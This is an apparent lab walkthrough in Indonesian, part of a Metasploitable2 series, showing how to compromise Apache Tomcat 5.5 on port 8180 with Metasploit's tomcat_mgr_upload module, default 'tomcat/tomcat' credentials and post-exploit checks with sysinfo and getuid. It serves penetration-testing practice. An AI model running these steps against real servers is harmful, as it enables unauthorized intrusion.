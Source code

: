 # Exploit port 8180 (Tomcat)
- Buka halaman `http://192.168.1.114:8180` melalui browser, maka disini dapat dilihat bahwa server tersebut menggunakan apache tomcat versi 5.5

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20tomcat/tomcat%200.JPG)

- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20tomcat/tomcat%201.JPG)

- Cari modul untuk exploit apache tomcat versi `5.5`
```sh
search tomcat 5.5
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20tomcat/tomcat%202.JPG)

- Gunakan modul `exploit/multi/http/tomcat_mgr_upload` yang berada di nomor urut 2 dari hasil pencarian
```sh
use <nomor_modul>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20tomcat/tomcat%203.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20tomcat/tomcat%204.JPG)

- Isi parameter yang dibutuhkan di modul tersebut
```sh
set rhosts <IP_metasploitable2>
set rport 8180
set HttpUsername tomcat
set HttpPassword tomcat
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20tomcat/tomcat%205.JPG)

- Setelah pengisian parameter selesai jalankan modul tersebut. Disini exploit berhasil mengakses masuk ke dalam server
```sh
exploit
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20tomcat/tomcat%206.JPG)

- Gunakan perintah `sysinfo` untuk melihat versi sistem operasi server. Ketik perintah `getuid` untuk mengetahui nama user yang berhasil masuk ke server

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20tomcat/tomcat%207.JPG)